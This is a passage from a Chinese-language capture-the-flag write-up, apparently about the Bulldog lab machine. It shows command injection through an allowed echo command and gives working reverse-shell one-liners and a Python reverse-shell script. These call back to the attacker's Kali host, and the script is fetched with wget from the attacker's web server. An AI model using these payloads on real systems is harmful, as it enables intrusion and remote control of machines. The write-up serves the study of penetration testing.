 由于 echo 命令是允许执行的，所以利用 echo 构建一个反弹 shell 的命令，然后用管道符给 bash 执行。

*   ls &&echo “bash -i>& /dev/tcp/192.168.44.138/4444 0>&1” | bash
    
*   echo “bash -i>& /dev/tcp/192.168.44.138/4444 0>&1” | bash
    
*   IP 地址为 Kali 攻击机地址
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9BPp9e3m8M3bhAgK6gYr9lOqXPO4I1UQn8magfIYciaTsf4yJsiaR9UIQ/640?wx_fmt=png)

在 web 页面执行 echo ‘bash -i >& /dev/tcp/192.168.44.138/4444 0>&1’|bash，就可以弹回一个 shell。注意，这里的 IP 地址是 Kali 系统的，否则会提示 “500 错误”。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9H5lRJU9ibtNsEvU82eibVkia2l24DfOV3a2LoPo05dNfWNkoOXs4CfTUw/640?wx_fmt=png)

此时的 nc 处于正常监听状态，并且成功反弹 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9opYOc4Q3yQDjesHBq2rIqo9icwpI4icKib2diaA4HlB60cAqwTvcaB62hQ/640?wx_fmt=png)

同时，补充另一种方法。通过 Kali 搭建一个简易 Web 服务，反弹 shell 的脚本要写到相应的目录，否则靶机用 wget 下载的时候就会访问失败。

```
import socket,subprocess,os s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)s.connect(("192.168.44.138", 4444))  #Kali系统IP地址 4444是nc的监听端口os.dup2(s.fileno(),0)os.dup2(s.fileno(),1)os.dup2(s.fileno(),2)p=subprocess.call(["/bin/bash","-i"])
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9Cv67HpaKWEibjrJK114ZKvbhJjbyTa4V0WKtfxOibGfLFmLgib7orxU2g/640?wx_fmt=png)

如果服务器搭建在 / var/www/html 文件时，需要把脚本写到 / var/www/html。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9EObNYPDm64VNv7yTFP5a3jnNRs0hugTeyjn2NknIBKnfSZGkXicbuyw/640?wx_fmt=png)

输入下面监听 Python 网站。

*   python -m SimpleHTTPServer 80
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9dcEKLcj2Nq6TdL6PvOD8sRIHicicjSUesZpXBNVumgJnV9bJ1pn6SYgQ/640?wx_fmt=png)

靶机用 weget 命令上传 Python 文件，并反弹 shell。

*   pwd&wget http://192.168.44.153/bulldog-webshell.py
    
*   反弹成功 输入 python -c ‘import pty;pty.spawn("/bin/bash")’
    

至此，我们得到了 django 的普通权限，下一步就是想办法提权，这就需要不断地去探索发现整个系统的漏洞。

4. 权限提升和获取 flag
---------------

nc 反弹 shell 之后，我们可以使用命令进行一系列的查看。

*   ls
    
*   cd
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9mdpVpibuFPD9EQcZWEscdPib5r0jPkDpxj8LyhF28AKQ2ibeWP2h8JTKQ/640?wx_fmt=png)
